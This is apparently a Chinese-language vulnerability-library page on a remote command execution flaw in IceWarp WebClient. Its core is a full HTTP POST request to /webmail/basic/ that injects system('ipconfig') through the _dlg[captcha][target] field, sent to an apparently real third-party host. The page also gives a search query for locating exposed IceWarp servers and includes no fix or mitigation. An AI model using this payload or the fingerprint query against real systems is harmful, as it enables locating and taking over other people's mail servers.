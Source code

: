 # IceWarp WebClient basic 远程命令执行漏洞

## 漏洞描述

IceWarp WebClient 存在远程命令执行漏洞，攻击者构造特殊的请求即可远程命令执行

## 漏洞影响 

<a-checkbox checked>IceWarp WebClient</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="IceWarp-公司产品"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313133616786.png)



漏洞请求包为

```plain
POST /webmail/basic/ HTTP/1.1
Host: sd.sahadharawat.com
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313133616760.png)